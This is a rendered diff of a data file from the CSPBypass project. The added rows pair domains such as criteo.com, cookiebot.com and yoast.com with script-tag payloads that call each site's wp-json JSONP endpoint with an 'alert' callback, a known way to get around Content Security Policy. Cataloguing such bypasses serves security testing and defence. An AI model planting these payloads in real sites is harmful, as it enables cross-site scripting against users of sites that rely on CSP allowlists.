

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
+row 90: cloudinary.com | <script src="https://cloudinary.com/wp-json?_jsonp=alert"></script>
@@ row 83 moved to row 91: cloudusersettings-pa.clients6.google.com… @@
+row 96: connectad.io | <script src="https://connectad.io/wp-json?_jsonp=alert"></script>
+row 99: cookiebot.com | <script src="https://cookiebot.com/wp-json?_jsonp=alert"></script>
+row 101: criteo.com | <script src="https://criteo.com/wp-json?_jsonp=alert"></script>
+row 103: cubepile.com | <script src="https://cubepile.com/wp-json?_jsonp=alert"></script>
+row 107: dable.io | <script src="https://dable.io/wp-json?_jsonp=alert"></script>
+row 109: demandbase.com | <script src="https://demandbase.com/wp-json?_jsonp=alert"></script>
+row 308: yayin.com.tr | <script src="https://yayin.com.tr/wp-json?_jsonp=alert"></script>
+row 309: yoast.com | <script src="https://yoast.com/wp-json?_jsonp=alert"></script>
```
Also changed, not shown: 51 added rows and 9 moved rows elsewhere in this file.
